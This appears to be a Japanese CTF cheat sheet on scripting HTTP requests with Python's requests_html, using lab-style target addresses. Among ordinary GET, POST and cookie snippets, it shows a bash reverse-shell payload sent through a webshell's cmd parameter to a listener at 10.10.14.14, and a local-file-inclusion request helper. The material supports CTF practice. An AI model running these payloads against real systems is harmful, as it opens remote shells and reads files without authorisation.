 ```yaml
---
layout: post
title: HTTP通信の自動化(python/requests_html)
published : true
permalink: /ctf/cheatsheets/common/python_requests_html
tags: [CTF, Common, cheatsheet, python, requests_html]
---
```

## 基本
```python
from requests_html import HTMLSession

s = HTMLSession()
```

## GET
```python
url = 'http://10.10.11.116/'

r = s.get(url)

print(r.text) # htmlを表示
print(r.html.text) # inner textのみ表示
```

## POST
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, data=data)
```

## POST(JSON)
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, json=data)
```

## Cookie
### 取得
```python
print(s.cookies)
```

### 送信
```python
url = "http://10.10.11.139:5000/"

session.cookies.set('auth', 'some_cookie')

r = session.get(url)
```

## TLS証明書の検証をしない
verify=False
```python
url = 'https://store.nunchucks.htb/api/submit'
r = session.post(url, verify=False, json=data)
```

## DataのURL encode
```python
import urllib.parse

cmd = 'bash -c "bash -i >& /dev/tcp/10.10.14.14/7777 0>&1"'
cmd = urllib.parse.quote(cmd)
url = f'http://10.10.11.116/webshell.php?cmd={cmd}'

r = s.get(url)
```

## 例
LFI用。コマンドライン引数にファイル名を入力する。
```python
import sys
from requests_html import HTMLSession

s = HTMLSession()

url = f'http://10.10.10.194/news.php?file={sys.argv[1]}'
print(f'url: {url}')

r = s.get(url)

print(r.text) # htmlを表示
print(r.html.text) # inner textのみ表示
```